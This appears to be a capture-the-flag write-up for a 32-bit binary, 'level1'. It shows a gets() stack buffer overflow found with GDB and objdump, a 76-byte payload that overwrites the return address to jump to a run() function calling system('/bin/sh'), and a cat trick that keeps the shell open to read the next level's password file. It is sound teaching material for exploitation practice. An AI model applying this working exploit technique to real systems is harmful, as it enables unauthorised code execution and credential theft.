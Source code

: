 # Level 1

## Initial Context

- One file: `level1`

## Solving the Challenge

Running the file without any argument block on an input.
Entering anything does not seems to anything.

```bash
$ echo | ./level1
$ echo a | ./level1
$ echo hello | ./level1
```

But a lot of characters seems to break it.

```bash
$ python -c 'print "A" * 128' | ./level1
Segmentation fault (core dumped)
```

Let's see with GDB.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "A" * 128')
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) bt
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
#3  0x41414141 in ?? ()
#4  0x41414141 in ?? ()
#5  0x41414141 in ?? ()
#6  0x41414141 in ?? ()
#7  0x41414141 in ?? ()
#8  0x41414141 in ?? ()
#9  0x41414141 in ?? ()
#10 0x41414141 in ?? ()
#11 0x41414141 in ?? ()
#12 0x41414141 in ?? ()
#13 0x00000000 in ?? ()
```

We can see a corruption of the stack.

By looking at the assembly code, we can see 2 interesting function, `main` and `run`, that are not calling each others.

```
$ objdump -d ./level1
...
08048444 <run>:
...
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave
 804847f:       c3                      ret

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave
 8048496:       c3                      ret
 8048497:       90                      nop
...
```

`main` is using `gets`, which is exploitable since `gets` will store data until it find an EOF without taking into account the buffer size.

By looking at the assembly code, we can see that `main` is also reserving `0x50` bytes for local variables, and is storing the `gets` buffer at an offset of `0x10`. Meaning that the buffer should be `0x50 - 0x10 = 0x40` or `64`. 

We now need to find the number of byte that will be required to break the stack.
This number must be above the buffer size (`64`) and by an increment of 4 (since we are in 32bit).

By slowing incrementing, 80 bytes (20 * 4) seem to break the stack.

```bash
$ gdb ./level1
(gdb) run <<< $(python -c 'print "ABCD" * 20')
Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) bt
#0  0x44434241 in ?? ()
#1  0x00000000 in ?? ()
```

We can also see that the values are in little-endian since the "string" is reversed.
So by using 76 dummy bytes followed by a valid function address, we can redirect the stack.

The `run` function is located at `0x08048444` (or `44 84 04 08` in LE).

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

We can see a message, but its still crashing.

By looking further at the `run` function, we can see that it calls `system("/bin/sh")`.
But by using a pipe, stdin close right after it finished sending our payload. We need to keep it open.

For that we can first put our payload into a file.
Then we need to read it with `cat`, but with re-reading stdin, and sending everything into the pipe.

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
<flag>
```
